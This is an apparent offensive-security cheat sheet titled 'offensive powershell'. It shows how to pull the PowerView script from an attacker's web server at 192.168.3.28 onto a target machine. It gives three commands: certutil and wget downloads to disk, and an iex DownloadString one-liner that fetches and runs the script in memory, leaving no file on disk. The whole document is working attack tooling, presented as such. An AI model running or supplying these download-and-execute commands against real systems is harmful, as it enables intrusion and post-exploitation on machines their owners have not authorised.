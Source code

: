 # offensive powershell

Attacker's machine is 192.168.3.28, and a file called powerview.ps1 is being hosted on a web server

## download files from powershell

Download to file:

```powershell
certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
```

```powershell
wget http://192.168.3.28/powerview.ps1 -outfile powerview.ps1
```

Download to memory:

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
```

#

